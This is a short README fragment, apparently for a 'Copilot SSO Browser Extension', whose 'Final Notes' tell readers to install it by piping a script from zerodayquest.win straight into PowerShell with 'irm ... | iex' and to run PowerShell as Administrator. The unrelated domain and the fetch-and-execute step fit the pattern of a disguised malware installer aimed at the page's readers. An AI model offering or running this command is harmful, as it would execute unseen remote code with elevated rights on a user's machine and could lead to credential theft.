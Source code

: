 ## **Final Notes**  
- For **fast installation**, run:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  
- If you experience issues, try running PowerShell as an **Administrator**.  
- For the latest updates, always use the official installation command.  

🚀 Enjoy the **Copilot SSO Browser Extension** and stay secure! 🚀  
